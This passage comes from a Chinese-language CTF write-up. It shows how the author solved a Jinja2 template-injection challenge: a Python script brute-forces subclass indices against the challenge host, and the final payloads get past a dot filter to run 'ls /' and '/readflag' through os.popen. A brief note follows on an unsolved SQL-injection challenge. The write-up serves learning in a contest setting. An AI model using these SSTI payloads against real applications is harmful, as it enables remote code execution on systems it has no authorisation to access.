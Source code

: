 ![image-20220312170914823](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220312170914823.png)

逐步注入后我们会发现，subclasses是获取基类，基类很多但是能使用os模块能实现rce的，需要找，这个时候写个python脚本可以解决问题

```python
import requests

counter = 0
while True:
    payload = '()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(%s)|attr("__init__")|attr("__globals__")|attr("__getitem__")("sys")' % counter
    url = 'http://146.56.223.34:61289/{{%s}}' % payload
    r = requests.get(url)
    if "404" in r.text:
        print(counter)
        break
    counter += 1
```

![image-20220312170450091](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220312170450091.png)

运行之后返回结果100，这种脚本反正运行的时候心里其实没底，出现结果还挺惊喜的，找到可以实现RCE的基类是非常关键的一步，接下来我们就调用os模块的popen来看一看目录下的内容

此时的payload:`http://146.56.223.34:61289/{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(100)|attr("__init__")|attr("__globals__")|attr("__getitem__")("sys")|attr("modules")|attr("__getitem__")("os")|attr("popen")("ls /")|attr("read")()}}`

![image-20220312170602775](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220312170602775.png)

发现有flag和readflag，那么flag文件我们没有读取权限，但是可以通过执行readflag这个程序来读取flag文件

最终payload:`http://146.56.223.34:61289/{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(100)|attr("__init__")|attr("__globals__")|attr("__getitem__")("sys")|attr("modules")|attr("__getitem__")("os")|attr("popen")("/readflag")|attr("read")()}}`

![image-20220312170545207](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220312170545207.png)

然后的话linux的一些命令是真的不熟悉，最后就差读flag了都是折腾了好久，那个急啊真是（，还好也是有惊无险的做完了，注入点我其实很早就找到，我觉得解题的两个关键就是首先要能够发现.被过滤了，然后第二个是找到能够RCE的基类，接下来就一步一步走还是比较顺利的。

### pokemon v2

吃个晚饭回来就是18点了，还有最后两个小时决定尝试一下这道sql注入，虽然感觉拿这个时间看看密码也许能出个200分的但是想了想以后要专心搞web嘛也就解着看这个了，做出一半也好

首先的话注入点已经说了和week2中pokemon一样，那么就是尝试注入呗

给出的两个文章和源码，源码告诉了过滤的内容然后一篇是21年hgame week4的sql注入题另一篇是sql注入绕过滤的一些方法

过滤很严格，而且union，substr什么的都过滤了，那就不能和week2一样union注入了，只能盲注了

首先思考一下过滤怎么绕以及盲注怎么注吧，给出的21年week4的题目中使用了时间盲注的注入方法，试试看吧

确实不太做得出，还是去看看密码吧，sql注入确实学的不精，D^3的sql注入当时也是做了老半天没做出，回去一定好好补补！！！

## MISC 
